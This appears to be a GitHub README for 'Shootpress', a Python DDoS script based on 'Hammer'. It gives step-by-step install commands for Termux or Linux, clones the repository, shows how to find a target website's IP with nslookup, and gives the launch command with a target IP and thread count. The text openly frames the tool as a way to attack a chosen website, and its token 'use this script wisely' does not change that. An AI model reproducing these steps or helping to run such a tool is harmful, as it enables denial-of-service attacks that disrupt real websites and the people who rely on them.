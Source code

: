 Shootpress is a script that functions as a tool in carrying out DDoS attacks that are developed based on Hammer. This script can run on Android using Termux, and can also run on Linux devices.

Hope you can use this script wisely.

<b>How to:</b>
$ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/ronidianpatisa/Shootpress/

Shootpress need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Shootpress<br>
$ python shootpress.py -s [ip Address] -t 150<br>
example:<br>
$ python shootpress.py -s 123.45.67.89 -t 150<br>
